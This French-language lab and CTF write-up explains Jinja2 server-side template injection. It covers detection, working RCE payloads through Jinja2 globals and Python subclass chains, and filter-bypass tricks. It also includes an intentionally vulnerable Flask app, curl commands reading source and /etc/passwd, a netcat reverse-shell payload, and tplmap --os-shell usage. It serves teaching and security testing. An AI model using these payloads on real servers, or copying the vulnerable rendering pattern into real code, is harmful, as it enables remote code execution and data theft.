Server-Side Template
Injection
Jinja2 — de la théorie à l'exploitation RCE
Comprendre comment un moteur de template devient une surface d'attaque critique : anatomie de Jinja2, détection, exploitation RCE via introspection Python, bypass de filtres, reverse shell, et lab pratique documenté par captures.
C'est quoi un moteur de template ?
Un moteur de template (template engine) est une bibliothèque qui permet de générer du contenu dynamique en combinant un template statique avec des données variables. C'est la base de la plupart des applications web modernes.
Imagine un site e-commerce : la page produit a toujours la même structure, mais le nom, le prix et la description changent selon l'article affiché. Plutôt que d'écrire une page HTML pour chaque produit, on écrit un seul template avec des variables.
Architecture de rendu

Exemple basique — Template + Code Flask
<!-- Template Jinja2 --> <h1>Bonjour, {{ username }} !</h1> <p>Vous avez {{ message_count }} nouveaux messages.</p> {% if is_admin %} <a href="/admin">Panel Admin</a> {% endif %}

template.html — variables {{ ... }} et bloc conditionnel {% if %}from flask import Flask, render_template app = Flask(__name__) @app.route("/profile") def profile(): return render_template("template.html", username="spectra", message_count=42, is_admin=True ) if __name__ == "__main__": app.run(debug=True)

ex1.py — route Flask /profile qui injecte les variables dans le template
Le moteur de template prend le fichier HTML, remplace {{ username }} par
spectra, {{ message_count }} par 42, et génère
la page finale.

Python : Jinja2 (Flask, Django), Mako, Tornado
PHP : Twig, Smarty, Blade (Laravel)
Java : Freemarker, Velocity, Thymeleaf
Ruby : ERB, Haml
Node.js : Handlebars, EJS, Pug
Test local minimal — vuln.py
Avant de passer à Flask, on peut reproduire la vulnérabilité dans un script Python brut. C'est plus rapide pour comprendre la mécanique sans couche HTTP.
from jinja2 import Template name = input("Entre ton nom : ") print(Template("Bonjour " + name).render())

{{ 7*7 }} → 49 · {{ 7*'7' }} → 7777777 · {{config}} → rien (objet Flask absent hors contexte Flask)Théorie SSTI — Comment l'injection se produit
La Server-Side Template Injection (SSTI) survient quand l'application web passe des données contrôlées par l'utilisateur directement dans le moteur de template — non pas comme une valeur à afficher, mais comme du code template à exécuter.
Code vulnérable vs code sécurisé
from flask import Flask, request from jinja2 import Environment app = Flask(__name__) @app.route("/greet") def greet(): name = request.args.get("name", "World") # ❌ VULNÉRABLE : l'input utilisateur est rendu comme template env = Environment() template = env.from_string(f"Hello {name} !") return template.render()
@app.route("/greet") def greet(): name = request.args.get("name", "World") # ✅ SÉCURISÉ : l'input est passé comme variable, pas comme template return render_template_string("Hello {{ name }} !", name=name)
name={{ 7*7 }}, Jinja2 va évaluer l'expression et retourner Hello 49 !. L'input est traité comme du code, pas comme une donnée.
Pourquoi c'est grave ?
Jinja2 (et la plupart des moteurs de templates) expose par design un accès au runtime Python. Si un attaquant peut injecter des expressions, il peut traverser l'arbre des objets Python pour atteindre des fonctions système, lire des fichiers, et exécuter des commandes.
| Niveau d'impact | Ce qu'on peut faire | Exemple |
|---|---|---|
| Medium | Afficher des variables internes | {{ config }} |
| High | Lire des fichiers arbitraires | open('/etc/passwd').read() |
| Critical | Remote Code Execution (RCE) | os.popen('id').read() |
Jinja2 Internals — Sandbox et objets exposés
Pour exploiter efficacement le SSTI, il faut comprendre comment Jinja2 est construit en interne — ce qu'il expose, comment naviguer dans ses objets, et comment atteindre l'exécution de code.
La syntaxe Jinja2
| Syntaxe | Rôle | Exemple |
|---|---|---|
{{ ... }} | Expression — affiche une valeur | {{ user.name }} |
{% ... %} | Statement — contrôle (if, for, set) | {% if admin %} |
{# ... #} | Commentaire (non rendu) | {# todo #} |
| | Filtre — transforme une valeur | {{ name|upper }} |
Objets accessibles dans le contexte
Quand Jinja2 rend un template, il expose des objets globaux :
# Objets Flask/Jinja2 souvent exposés {{ config }} # Configuration Flask (SECRET_KEY, DB credentials...) {{ request }} # Objet requête HTTP {{ session }} # Session utilisateur {{ g }} # Variables globales Flask {{ self }} # Référence au template lui-même # Accès à la config Flask {{ config.SECRET_KEY }} {{ config.items() }} # Dump complet de la config
{{config}} ne fonctionne que dans un contexte Flask. Dans un script Jinja2 brut (comme vuln.py), il faut passer par les variables globales Jinja2 : lipsum, cycler, joiner, namespace.
La classe de base de tous les objets Python
En Python, tout est un objet, et tout objet hérite de object.
Le chemin pour atteindre l'exécution de code part de ce principe fondamental :
# En Python standard : "".__class__ # <class 'str'> "".__class__.__mro__ # (str, object) "".__class__.__mro__[1] # <class 'object'> "".__class__.__mro__[1].__subclasses__() # [<class 'type'>, <class 'int'>, ..., <class 'subprocess.Popen'>, ...]
str, l'ordre
est [str, object]. object est la classe racine de tout
Python — toutes les classes en dérivent, ce qui nous donne accès à
__subclasses__() : la liste complète des classes chargées en mémoire.
La chaîne d'exploitation théorique
"" (string quelconque dans le template) │ ├─ .__class__ → str │ ├─ .__mro__[1] → object (classe racine Python) │ ├─ .__subclasses__() → [toutes les classes en mémoire] │ [..., Popen, ...] │ └─ [N]("cmd", shell=True) → RCE 🔴
Détection — Payloads de test
Avant d'exploiter, on doit confirmer que le point d'entrée est vulnérable, et identifier quel moteur de template est utilisé.
Étape 1 — Baseline : comportement normal
On commence toujours par un input légitime pour observer le rendu attendu. Ici, la page
"Greet App" affiche simplement le nom saisi via le paramètre name.

frinds est simplement affiché après "Hello"Étape 2 — Test arithmétique (universel)
Le test le plus simple consiste à injecter une expression mathématique. Si le résultat est calculé, le moteur de template exécute l'input :
# Injecte dans chaque paramètre (GET, POST, headers, cookies) {{7*7}} → si on voit "49" → SSTI confirmé {{7*'7'}} → Jinja2 : "7777777" | Twig : "49" ${{7*7}} → test multi-syntaxe #{7*7} → Ruby/Smarty <%= 7*7 %> → ERB (Ruby) ${7*7} → Freemarker/Velocity

{{7*7}} est évaluée → "Hello 49 !" — SSTI confirmé ✓
Étape 3 — Détection Jinja2 spécifique
# Test de base {{7*7}} → 49 {{7*'7'}} → 7777777 (Jinja2 répète la string) # Afficher la config Flask (preuve d'exécution) {{config}} → dump de la config {{config.SECRET_KEY}} → clé secrète Flask # Accès aux classes {{''.__class__}} → <class 'str'> {{''.__class__.__mro__}} → (<class 'str'>, <class 'object'>) # Error-based : provoquer une erreur révélatrice {{undefined_var}} → peut révéler le stack trace Jinja2
Chercher les points d'injection
| Vecteur | Exemple | Test |
|---|---|---|
| Paramètre GET | ?name=SPECTRA | ?name={{7*7}} |
| Paramètre POST | Formulaire de login | username={{7*7}} |
| Header HTTP | User-Agent, Referer | User-Agent: {{7*7}} |
| Cookie | username=admin | username={{7*7}} |
| URL Path | /user/SPECTRA | /user/{{7*7}} |
Exploitation — RCE Step by Step
Une fois la vulnérabilité confirmée sur Jinja2, voilà comment construire un payload RCE en suivant la chaîne d'objets Python.
Étape 1 — Dump des sous-classes
On accède à __subclasses__() pour lister toutes les classes Python chargées
en mémoire. La liste peut contenir des centaines d'éléments — dont des classes très
utiles comme subprocess.Popen, os._wrap_close, ou
warnings.catch_warnings.

subprocess.Popen, os._wrap_close, _frozen_importlib.BuiltinImporter... toutes accessibles !subprocess.Popen change selon la version Python et les modules chargés. En CTF, si 351 ne marche pas, cherche autour (300–450). Alternative plus robuste : utiliser os._wrap_close ou passer par les globals de joiner / lipsum.
Étape 2 — Payload RCE via globals Jinja2 (méthode recommandée)
Plutôt que de devoir trouver l'index exact de Popen, on peut passer par les
fonctions globales de Jinja2 (joiner, lipsum,
cycler, namespace) qui possèdent toutes un accès direct à
__globals__ → os. C'est la méthode la plus élégante et la
plus reproductible.
# Chaîne complète : joiner → __init__ → __globals__ → os → popen {{ joiner.__init__.__globals__.os.popen("id").read() }} # Variantes équivalentes {{ lipsum.__globals__.os.popen("id").read() }} {{ cycler.__init__.__globals__.os.popen("id").read() }} {{ namespace.__init__.__globals__.os.popen("id").read() }}

uid=1000(spectrax) gid=1000(spectrax) groups=1000(spectrax),10(wheel),964(docker)Étape 3 — Reconnaissance système
Une fois la RCE obtenue, on explore l'environnement pour comprendre le contexte : fichiers présents, permissions, répertoire courant.

application1.py, app.py, ex1.py, ssti_blog.html, templates/, vuln.pyÉtape 4 — Lecture du code source et extraction du flag
Le fichier app.py contient la logique Flask complète. En le lisant, on
découvre la SECRET_KEY — qui est ici le flag.

Méthode alternative — via les builtins Python
# Via self.__init__.__globals__.__builtins__ {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }} # Via __builtins__ d'une fonction connue {{ ''.__class__.__mro__[1].__subclasses__()[N].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read() }}

vuln.py : self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()Bypass — Filtres communs en CTF
En CTF et en pentest, des filtres ou une sandbox Jinja2 sont souvent en place pour bloquer l'exploitation directe. Voilà les techniques de bypass les plus utilisées.
Bypass de filtres sur les mots-clés
# Si "__class__" est filtré → concaténation {{ ''["__cla""ss__"] }} {{ ''["__class__"[0:9]] }} {{ ''|attr("__class__") }} ← via filtre attr() # Si "." est filtré → bracket notation {{ ''["__class__"]["__mro__"][1] }} # Si les underscores sont filtrés → encodage {{ ''["\x5f\x5fclass\x5f\x5f"] }} ← \x5f = underscore {{ ''["\x5f\x5f""class""\x5f\x5f"] }} # Via request.args pour éviter les filtres inline # URL: ?x=__class__ {{ ''[request.args.x] }}
Bypass de la sandbox Jinja2
# Si __class__ est bloqué → utiliser __base__ {{ ().__class__.__bases__[0].__subclasses__() }} # Utiliser lipsum (fonction globale Jinja2) {{ lipsum.__globals__ }} {{ lipsum.__globals__["os"].popen("id").read() }} # Utiliser cycler {{ cycler.__init__.__globals__.os.popen("id").read() }} # Utiliser joiner {{ joiner.__init__.__globals__.os.popen("id").read() }} # Utiliser namespace {{ namespace.__init__.__globals__.os.popen("id").read() }}
Bypass des espaces bloqués
# Remplacer les espaces par des tabulations ou newlines {{config}} ← pas d'espace nécessaire {{''.__class__.__mro__[1]}} ← pas d'espace # Utiliser des newlines {{ ''.__class__ }} # Si les espaces dans les commandes sont filtrés → $IFS (bash) {{ joiner.__init__.__globals__.os.popen('cat$IFS/etc/passwd').read() }}
Bypass des guillemets bloqués
# Utiliser request.args pour passer les strings # GET /?cmd=id {{ joiner.__init__.__globals__.os.popen(request.args.cmd).read() }} # Utiliser chr() pour construire des strings {% set s = dict(i=1).__class__.__mro__[1].__subclasses__()[N].__init__.__globals__ %}
Bypass récapitulatif
| Filtre | Bypass |
|---|---|
__class__ bloqué | |attr("__class__") ou ["__class__"] |
. bloqué | Bracket notation ["attr"] |
_ bloqué | \x5f ou via request.args |
| Mots-clés bloqués | lipsum, cycler, joiner, namespace |
| Quotes bloquées | request.args.param |
Lab Pratique — CTF Simulation
Voilà le lab complet utilisé pour les captures de ce write-up — code vulnérable, walkthrough d'exploitation, reverse shell et flag.
Setup du lab
# Installer Flask pip install flask # Créer le répertoire mkdir ssti-lab && cd ssti-lab
from flask import Flask, request, render_template_string import os app = Flask(__name__) app.secret_key = "MZ{SSTI_M4ST3R_2026}" TEMPLATE = """ <!DOCTYPE html> <html> <head><title>SSTI Lab</title></head> <body> <h1>Bienvenue sur le Greet App</h1> <form method="GET"> <input name="name" placeholder="Ton nom" value="{{ raw_name }}"> <button type="submit">Envoyer</button> </form> <p>Résultat : RESULT_PLACEHOLDER</p> </body> </html> """ @app.route("/") def index(): name = request.args.get("name", "World") # ❌ Vulnérabilité SSTI — l'input est rendu comme template greeting = render_template_string(f"Hello {name} !") output = TEMPLATE.replace("RESULT_PLACEHOLDER", greeting) return render_template_string(output, raw_name=name) if __name__ == "__main__": app.run(debug=False, port=5000)
python3 app.py # App accessible sur http://127.0.0.1:5000
Walkthrough complet
Confirmer la vulnérabilité
Voir captures de la phase 03 — {{7*7}} retourne 49, {{7*'7'}} retourne 7777777. Jinja2 confirmé.
RCE via joiner
# Exécuter 'id' curl "http://127.0.0.1:5000/?name={{joiner.__init__.__globals__.os.popen('id').read()}}" → Hello uid=1000(spectrax) gid=1000(spectrax) groups=1000(spectrax),10(wheel),964(docker) ! # Lister les fichiers curl "http://127.0.0.1:5000/?name={{joiner.__init__.__globals__.os.popen('ls -la').read()}}" # Lire app.py (contient le flag) curl "http://127.0.0.1:5000/?name={{joiner.__init__.__globals__.os.popen('cat app.py').read()}}"
Reverse shell — Setup du listener
On prépare un listener netcat sur la machine attaquante.
nc -lvnp 4444 # Ncat: Listening on :::4444 # Ncat: Listening on 0.0.0.0:4444

Reverse shell — Déclenchement via SSTI
On envoie le payload qui force la cible à se connecter en retour vers notre listener.
{{ joiner.__init__.__globals__.os.popen('nc 127.0.0.1 4444 -e /bin/bash').read() }}

name — le serveur exécute la commande via os.popen()
whoami → spectrax · ifconfig → dump des interfaces réseau
Tu viens de passer de la détection SSTI à une RCE complète avec reverse shell.
Le flag était dans app.py (variable secret_key) — il est
souvent soit dans les fichiers sources, soit dans /flag.txt, soit dans
les variables d'environnement.
Outil automatisé — tplmap
# Installer tplmap git clone https://github.com/epinna/tplmap cd tplmap && pip install -r requirements.txt # Tester automatiquement python3 tplmap.py -u "http://127.0.0.1:5000/?name=INJECT" # OS shell interactif python3 tplmap.py -u "http://127.0.0.1:5000/?name=INJECT" --os-shell # Lire un fichier python3 tplmap.py -u "http://127.0.0.1:5000/?name=INJECT" --os-cmd "cat /etc/passwd"
Ressources & Références
Une sélection de ressources pour approfondir le sujet — papers, documentation officielle, outils, cheatsheets et labs pratiques.